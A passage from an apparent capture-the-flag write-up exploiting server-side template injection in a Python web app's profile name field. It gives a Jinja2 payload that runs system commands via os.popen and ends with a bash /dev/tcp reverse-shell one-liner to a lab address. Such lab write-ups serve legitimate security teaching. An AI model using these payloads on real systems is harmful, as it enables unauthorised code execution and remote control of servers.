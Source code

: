 [_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20220221221942949.png)

There’s a bunch of functionality on the site that doesn’t do anything. But
profile page is interesting. I can update the admin’s name to whatever I want:

![image-20220221222119983](https://0xdfimages.gitlab.io/img/image-20220221222119983.png)

#### Tech Stack

The headers on this site are the same, still Python:

    
    
    HTTP/1.1 200 OK
    Date: Wed, 23 Feb 2022 12:01:51 GMT
    Server: Werkzeug/2.0.2 Python/3.6.7
    Content-Type: text/html; charset=utf-8
    Vary: Cookie,Accept-Encoding
    Set-Cookie: session=eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiYjJlZjM2ZmY1MmYyMTViYTE3MWExY2EwZDJhYWE3MjJkNDc4NmVkYyJ9.YhYiLw.SY2uUMb7cHAxWkDC_CqKdW3Td0s; HttpOnly; Path=/
    Connection: close
    Content-Length: 13603
    

#### POC

Given the webserver is Python, server-side template injection (SSTI) is a
common flaw to look for. To check for SSTI, I’ll give the standard payload,
`{{ 7 * 7 }}`. The name updates to 49:

![image-20220221222257539](https://0xdfimages.gitlab.io/img/image-20220221222257539.png)

That’s an excellent sign that the site is vulnerable to SSTI.

#### Execution POC

Just like in the recently retired box [Bolt](/2022/02/19/htb-bolt.html#ssti),
I can try a simple payload to see if I can get system execution via this SSTI:

    
    
    {{ namespace.__init__.__globals__.os.popen('id').read() }}
    

On submitting that as the name, the result returns:

![image-20220221222444916](https://0xdfimages.gitlab.io/img/image-20220221222444916.png)

Not only is that execution, but as root!

#### Shell

I’ll use the same payload to get a reverse shell:

    
    
    {{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
    